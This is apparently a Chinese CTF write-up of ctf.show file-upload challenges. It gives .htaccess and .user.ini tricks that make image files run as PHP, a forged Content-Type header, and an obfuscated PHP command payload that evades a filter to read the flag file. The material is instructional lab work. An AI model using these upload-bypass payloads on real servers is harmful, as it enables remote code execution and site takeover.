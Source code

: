 ```plain
观察代码，发现是上传zip压缩包。对其进行上传，发现下载地址：http://be523f40-5a97-4144-a90d-dd17f56c42b9.challenge.ctf.show/upload/download.php?file=5566335767fd327b0a55ba15dd1e7c53.zip
也属于包含漏洞。进行抓取数据包测试。
上传11.zip，写上后门代码，post提交，得到flag
```

![1645515286987-e4911562-c8e8-44e6-994b-ade19aee5440.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959265-1608924785.png)

167

```plain
.htaccess默认不支持nginx，支持Apache，但是设置后支持https://blog.csdn.net/cs729298/article/details/77478155
.htaccess可以通过设置实现文件解析配置
将.png后缀的文件解析成php
AddType application/x-httpd-php .png   
将.png后缀的文件解析成php
上传.htaccess，内容：AddType application/x-httpd-php .jpg
```

![1645516857879-81749ce1-7250-456b-92aa-b0fc43076de3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959173-1758172048.png)

```plain
上传一个带后门的图片代码
```

![1645516963035-39d75f86-b6c8-4483-9cb5-c9a9d5e7ac45.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958600-1911215063.png)

```plain
访问后门地址：http://0a3f2ecc-8fe8-4964-a37c-cc8100671166.challenge.ctf.show/upload/11.jpg
```

168

```plain
这是一个脚本免杀内容。可以直接上传php文件。但是对后门内容有过滤。
构造payload：<?php $a='syste';$b='m';$c=$a.$b;$c('tac ../flagaa.php');?>
<?php $a='syste'.'m';$a('tac ../flagaa.php');?>
访问文件，读取完成。
```

![1645517601496-15ba1841-2dd3-4df6-8502-7b0b02cb0dda.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958605-809729497.png)

169 170

```plain
构造.user.ini利用条件：上传index.php 内容随意
.user.ini的内容：auto_prepend_file=png
png的内容：<?php phpinfo();?>
index.php内容：fawiekjbfkjd（随意）
访问当前目录，就可以触发PHPinfo效果。
php版本需要7版本
```

![1645518997438-d0c22f01-6824-497e-b30c-bd3472191af1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958943-1879303.png)

```plain
访问upload目录，发现没有index.php，发生403错误。所以需要上传一个index.php
上传php需要修改 保存在upload目录下
Content-Type:image/png
```
